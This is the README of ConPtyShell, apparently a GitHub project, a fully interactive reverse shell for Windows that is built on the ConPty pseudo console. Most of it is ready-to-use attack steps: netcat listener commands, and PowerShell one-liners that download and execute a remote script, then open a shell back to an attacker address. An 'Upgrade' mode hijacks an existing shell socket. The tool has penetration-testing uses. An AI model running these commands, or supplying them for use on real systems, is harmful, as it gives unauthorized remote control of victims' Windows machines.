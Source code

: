 # ConPtyShell
ConPtyShell is a Fully Interactive Reverse Shell for Windows systems.

The introduction of the Pseudo Console (`ConPty`) in Windows has improved so much the way Windows handles terminals.
ConPtyShell uses this feature to literally transform your `bash` in a remote powershell.

<p>Briefly, it creates a Pseudo Console and attaches 2 pipes.<br>
Then it creates the shell process (default `powershell.exe`) attaching the Pseudo Console with redirected input/output.<br>
Then starts 2 Threads for Async I/O:<br>
- one thread for reading from the socket and writing to Pseudo Console input pipe;<br>
- the second thread for reading from the Pseudo Console output pipe and writing to the socket.</p>

ConPtyShell has also the magic flag "Upgrade" that transform your current shell in a fully interactive one, use it if you don't want to use a new connection and want to hijack your current shell socket :)

If you want to know further information regarding ConPty you can find a great article [1] in the references section.

**NOTE: ConPtyShell uses the function <a href="https://docs.microsoft.com/en-us/windows/console/createpseudoconsole">`CreatePseudoConsole()`</a>. This function is available since Windows 10 / Windows Server 2019 version 1809 (build 10.0.17763).**

**NOTE2: If the ConPTY is not available on the target system you will get a normal `netcat`-like interactive shell.**

## Requirements
<p>Client Side: Windows version >= 10 / 2019 1809 (build >= 10.0.17763)</p>
<p>Server Side: any TCP listener, i.e. `netcat`</p>

## Usage

It's important to have the same `rows` and `cols` size between your terminal and the remote terminal if you want to have an aligned output on the shell.

#### Method 1
In this method the terminal size is set without you pass the `rows` and `cols` parameters to `Invoke-ConPtyShell` function:

##### Server Side:

```bash
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

##### Client Side:

```ps1
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 10.0.0.2 3001
```

#### Method 2
If you prefer to have more freedom on the TCP listener and your terminal you can proceed with a "Manual" way to get the reverse shell. In this case it's important that you set rows and cols size when calling the `Invoke-ConPtyShell` function:

##### Server Side:

```bash
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```

##### Client Side:

Here you should use the values read from ```stty size``` command in the Parameters `-Rows` and `-Cols`

```ps1
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 24 -Cols 80
```

#### Method 3 - Upgrade

You can also upgrade your current shell to a fully interecative shell. In this case it's important that you set rows and cols size when calling the `Invoke-ConPtyShell` function:

##### Server Side:

```bash
stty size
nc -lvnp 3001
Wait For connection
ctrl+z
stty raw -echo; fg[ENTER]
```

##### Client Side:

Here you should use the values read from ```stty size``` command in the Parameters `-Rows` and `-Cols`

```ps1
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell -Upgrade -Rows 24 -Cols 80
```

## Change Console Size

In any case if you resize your terminal while you have already open the remote shell you can change the rows and cols size directly from powershell pasting the following code:

```ps1
$width=80
$height=24
$Host.UI.RawUI.BufferSize = New-Object Management.Automation.Host.Size ($width, $height)
$Host.UI.RawUI.WindowSize = New-Object -TypeName System.Management.Automation.Host.Size -ArgumentList ($width, $height)
```

## Demo

Below you can watch 2 demos. The first .gif using the **Method 1** with the compiled assembly in .exe format, the second .gif is showing the **Method 3** by upgrading your current shell with the .ps1 script:

#### Method 1

<img src="demo_1.gif">

#### Method 3 - Upgrade demo

<img src="demo_2.gif">

## References

1. https://devblogs.microsoft.com/commandline/windows-command-line-introducing-the-windows-pseudo-console-conpty/
2. https://github.com/microsoft/terminal
3. https://www.usenix.org/conference/usenixsecurity20/presentation/niakanlahiji
4. https://adepts.of0x.cc/shadowmove-hijack-socket/

## Credits

- LupMan
